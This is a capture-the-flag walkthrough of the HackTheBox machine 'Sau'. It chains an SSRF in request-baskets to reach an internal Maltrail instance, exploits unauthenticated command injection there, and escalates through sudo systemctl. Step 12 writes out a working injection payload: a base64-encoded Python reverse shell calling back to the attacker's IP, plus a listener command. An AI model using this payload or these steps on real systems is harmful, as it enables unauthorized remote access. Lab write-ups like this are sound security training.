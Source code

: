 <h2> Target: 10.129.247.225 Sau </h2>
<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.129.247.225 --min-rate=2000 -p- <br>

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ba80a5e0-6235-4e12-89ea-3a2fc8f79cdb)

Nmap shows 2 filtered ports and 2 open ports

Step 2: Enumerate the open ports further using nmap: nmap -Pn 10.129.247.225 --min-rate=5000 -p 22,55555 -sC -sV -oN nmap-sau

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/14c022c3-5e4c-48aa-8b8d-e810eae0725d)

Step 3: Navigating to http://10.10.11.224:55555 automatically redirects to http://10.10.11.224:55555/web which shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5c9e8501-93e0-4e97-8b60-66b272f3ea5b)

The bottom of the page shows that the site is using ‘request-baskets version 1.2.1’.   

Step 4: Google search ‘request-baskets exploit’ shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/924b36d7-ec52-4ad2-9b21-51d387bd0861)

Google shows plenty of sites explaining that request-baskets 1.2.1 is vulnerable to ssrf.  Opening https://notes.sjtu.edu.cn/s/MUUhEymt7# shows the steps to exploit this vulnerability: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/44693bb0-a530-4922-9a49-f22d0a1edf98)
 
The next few steps will be following the steps shown on this site.  

Step 5: Create a basket by navigating to http://10.10.11.224:55555/web and clicking on ‘Create’:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9f4a4168-56b6-48c6-9a04-6d352c0f1f7c)

Step 6: After clicking on ‘Create’, the page shows: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a018be5c-fca8-4f41-80c0-4dde92e59b4c)
 
Click on the settings icon at the top of the page.  Configure the basket settings as follows:
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/f8a3e2e4-3d17-4ec6-b025-89769b539b16)
  
The reason we are putting the forwarded url as ‘http://127.0.0.1:80/index.html’ is because earlier on we saw that nmap showed that port 80 was filtered when accessed externally.  Using ssrf we are trying to access port 80.    

Step 7: Navigating to http://10.10.11.224:55555/2h8dlj1 shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/7bb73e6e-a55d-4991-8164-a1ece3e708e6)

The page shows the forwarded url.  Using the ssrf we are able to access the internal site on port 80.  

Step 8: The bottom of the page shows the site is using ‘Maltrail version 0.53’.  Google search ‘Maltrail version 0.53 exploit’ shows that it’s vulnerable to unauthenticated command injection.  The next few steps will be the steps to perform the unauthenticated command injection.  

Step 9: The vulnerability is shown to be in the username parameter.  Since the exploit is in the login page, change the basket settings to point to /login instead of /index.html:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a38fcf5a-6ea0-4fd7-80f1-be34399395e2)
 
Step 10: Visit the site http://10.10.11.224:55555/2h8dlj1, capture the request in burp suite, and send the request to ‘repeater’ in burp suite.  Change the requst method to ‘POST’ and add in the bod parameter username=whatever&password=whatever

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/f284ace4-96c4-45b5-afd8-510c4520c182)
 
Step 11: Base64 encode a python reverse shell payload as we will need this for the command injection: 
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/45679838-1424-4786-945a-ff37ecf3a3ec)

Step 12: Add in the the command injection after the username=whatever: ;\`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTc1Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vK"|base64+-d|sh\`

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/faf1374f-ea96-409c-a54a-d950f5c7ea45)

Step 13: Open a netcat/pwncat listener to catch the reverse shell: pwncat-cs -lp 443

Send the request.  The pwncat listener got a reverse shell as username ‘puma’.  We can get the flag in /home/puma/user.txt
____________________________________________
<b>Privilege Escalation</b><br>
Step 1: Check sudo permissions: sudo -l

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5d8dd9c1-6e4c-4d74-bce9-4b34e6626735)
  
This shows we have sudo permissions to run ‘/usr/bin/systemctl status trail.service’ as the root user without entering a password.  

Step 2: Google ‘gtfobins systemctl’ shows a simple way to exploit.  First run the command: sudo systemctl status trail.service

Next, run the command: !sh

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/c2580076-a517-4b76-9ed6-f30ab549f80d)

We have shell as root.  We can get the flag in /root/root.txt.  
